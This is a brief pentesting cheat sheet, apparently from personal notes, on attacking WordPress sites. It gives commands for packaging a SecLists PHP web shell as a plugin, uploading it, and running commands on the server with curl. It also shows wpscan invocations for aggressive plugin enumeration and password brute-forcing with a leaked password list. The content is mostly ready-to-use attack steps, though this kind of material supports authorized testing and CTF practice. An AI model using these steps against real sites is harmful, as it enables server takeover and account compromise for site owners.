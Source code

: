 # WordPress

* [https://www.hackingarticles.in/wordpress-reverse-shell/](https://www.hackingarticles.in/wordpress-reverse-shell/)




## Malicious Plugin

Write a web shell with a malicious plugin.

Copy a plugin shell from SecLists and zip it:

```
$ cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .
$ zip plugin-shell.zip plugin-shell.php
```

Upload `plugin-shell.zip` (Plugins > Add New) and install it (Upload Plugin > Browse... > Install Now) **but do not activate**! Now you can access the web shell:

```
$ curl 'http://10.10.13.37/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami'
```




## wpscan

* [https://github.com/wpscanteam/wpscan](https://github.com/wpscanteam/wpscan)
* [https://wpscan.com/profile](https://wpscan.com/profile)

```
$ wpscan --url http://10.10.13.37/wp/ --api-token <API_TOKEN> --force -e ap [--plugins-detection aggressive] --disable-tls-checks -o wpscan.out
$ wpscan --url http://10.10.13.37/wp/ --api-token <API_TOKEN> --force --passwords /usr/share/seclists/Passwords/darkweb2017-top1000.txt --disable-tls-checks
```
